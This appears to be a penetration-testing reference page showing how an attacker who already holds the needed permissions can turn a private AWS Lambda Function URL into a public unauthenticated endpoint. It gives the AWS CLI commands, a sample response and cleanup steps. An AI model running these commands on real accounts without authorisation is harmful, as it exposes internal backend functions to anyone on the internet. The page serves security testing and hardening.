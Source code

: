 # AWS - Lambda Function URL Public Exposure (AuthType NONE + Public Invoke Policy)

Turn a private Lambda Function URL into a public unauthenticated endpoint by switching the Function URL AuthType to NONE and attaching a resource-based policy that grants lambda:InvokeFunctionUrl to everyone. This enables anonymous invocation of internal functions and can expose sensitive backend operations.

## Abusing it

- Pre-reqs: lambda:UpdateFunctionUrlConfig, lambda:CreateFunctionUrlConfig, lambda:AddPermission
- Region: us-east-1

### Steps
1) Ensure the function has a Function URL (defaults to AWS_IAM):
    ```
    aws lambda create-function-url-config --function-name $TARGET_FN --auth-type AWS_IAM || true
    ```

2) Switch the URL to public (AuthType NONE):
    ```
    aws lambda update-function-url-config --function-name $TARGET_FN --auth-type NONE
    ```

3) Add a resource-based policy statement to allow unauthenticated principals:
    ```
    aws lambda add-permission --function-name $TARGET_FN --statement-id ht-public-url --action lambda:InvokeFunctionUrl --principal "*" --function-url-auth-type NONE
    ```

4) Retrieve the URL and invoke without credentials:
    ```
    URL=$(aws lambda get-function-url-config --function-name $TARGET_FN --query FunctionUrl --output text)
    curl -sS "$URL"
    ```

### Impact
- The Lambda function becomes anonymously accessible over the internet.

### Example output (unauthenticated 200)

```
HTTP 200
https://e3d4wrnzem45bhdq2mfm3qgde40rjjfc.lambda-url.us-east-1.on.aws/
{"message": "HackTricks demo: public Function URL reached", "timestamp": 1759761979, "env_hint": "us-east-1", "event_keys": ["version", "routeKey", "rawPath", "rawQueryString", "headers", "requestContext", "isBase64Encoded"]}
```

### Cleanup

```
aws lambda remove-permission --function-name $TARGET_FN --statement-id ht-public-url || true
aws lambda update-function-url-config --function-name $TARGET_FN --auth-type AWS_IAM || true
```

